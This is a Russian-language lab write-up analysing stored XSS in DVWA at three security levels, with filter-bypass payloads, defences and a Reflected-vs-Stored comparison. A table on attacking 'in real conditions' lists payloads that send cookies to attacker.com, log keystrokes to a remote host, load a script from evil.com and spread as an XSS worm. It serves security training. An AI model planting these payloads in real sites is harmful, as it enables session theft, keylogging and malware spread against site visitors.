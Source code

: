 # 📘 Анализ Stored XSS в DVWA

---

## 💡 Что такое Stored XSS?

**Stored (Persistent) XSS** — это внедрение вредоносного JavaScript в поля ввода, данные из которых сохраняются на сервере (например, комментарии, формы, сообщения). При последующем просмотре страницы другим пользователем скрипт **автоматически исполняется**.

### ❗ Опаснее Reflected XSS, так как:

* Работает **без взаимодействия** (пользователь просто открывает страницу).
* Часто встречается в **форумах, чатах, CMS, CRM**.
* Может автоматически распространяться (вирусоподобно).

---

## 🧪 Тест 1 — Уровень Low

**Ввод**:

```html
Name: user  
Message: <script>alert(1)</script>
```

**Результат**:
При открытии страницы — появляется `alert(1)`.

### 🔍 Почему?

* Сервер **не фильтрует** данные.
* Ввод сохраняется в базе и **отображается как есть** при загрузке страницы:

  ```html
  <div class="comment">user says: <script>alert(1)</script></div>
  ```

---

## 🧪 Тест 2 — Уровень Medium

**Ограничение**:
Поле `name` — длина 10 символов.
Ты **увеличил лимит до 50 символов** (например, изменив HTML через DevTools).

**Ввод**:

```html
<ScRiPt>alert(document.cookie)</ScRiPt>
```

**Результат**:
Скрипт исполняется, и показывается кука:

```
PHPSESSID=...; language=en; ...
```

### 🔍 Как это работает?

* На уровне Medium есть **ограничение по длине**, но нет **фильтрации содержимого** или экранирования.
* С помощью DevTools ты обошёл ограничение, и скрипт успешно сохранился.
* Каждый, кто зайдёт на страницу — выполнит этот JS.

---

## 🧪 Тест 3 — Уровень High

**Ввод**:

```html
<img src=123.png onerror="alert(document.cookie)">
```

**Результат**:
Показывает `document.cookie` снова.

### 🔍 Почему сработало?

* Фильтрация на High пытается удалять `<script>` или фильтровать ключевые слова.
* Но `<img onerror>` — это **обход**, ведь `img` выглядит безобидно, а `onerror` — событие, которое сложно фильтровать на стороне сервера.
* Ввод сохраняется и отображается как:

  ```html
  <div class="comment">user says: <img src=123.png onerror="alert(document.cookie)"></div>
  ```

---

## 🎯 Как атаковать через Stored XSS в реальных условиях?

| Цель                                 | Пример кода                                                                       | Что произойдёт                 |
| ------------------------------------ | --------------------------------------------------------------------------------- | ------------------------------ |
| Похищение сессии                     | `<script>fetch('https://attacker.com?c='+document.cookie)</script>`               | Кука отправится злоумышленнику |
| Зло в iframe                         | `<iframe src="http://malicious.com/"></iframe>`                                   | Встраивание фишинга            |
| Клавиатурный шпион                   | `<script>document.onkeypress=(e)=>fetch('http://x/log?'+e.key)</script>`          | Логгер нажатий                 |
| Самораспространение (в комментариях) | `<script>fetch('/comment',{method:'POST', body:'<script>...</script>'})</script>` | XSS-червь                      |
| Выполнение действий от имени жертвы  | `<script>fetch('/admin/delete-user?id=5')</script>`                               | CSRF + XSS                     |
| Проксирование в свой JS              | `<script src="https://evil.com/backdoor.js"></script>`                            | Загружает удалённый код        |

---

## 🛡️ Как защищаться (для разработчиков)

* **Экранирование (`escaping`)** вывода (`htmlspecialchars` или аналог).
* Использование **Content Security Policy (CSP)**.
* Запрет inline-скриптов (`nonce`).
* Проверка ввода (white-list, но не black-list).
* Использование фреймворков с защитой (`React`, `Angular`, `Vue` по умолчанию экранируют ввод).

---

## 📋 Краткое сравнение Reflected vs Stored XSS

| Критерий          | Reflected XSS          | Stored XSS            |
| ----------------- | ---------------------- | --------------------- |
| Где содержится?   | В URL, не сохраняется  | В базе данных         |
| Когда срабатывает | При переходе по ссылке | При открытии страницы |
| Требуется жертва? | Да, перейти по ссылке  | Нет, просто загрузка  |
| Сложность атаки   | Ниже                   | Выше                  |
| Опасность         | Высокая                | Очень высокая         |

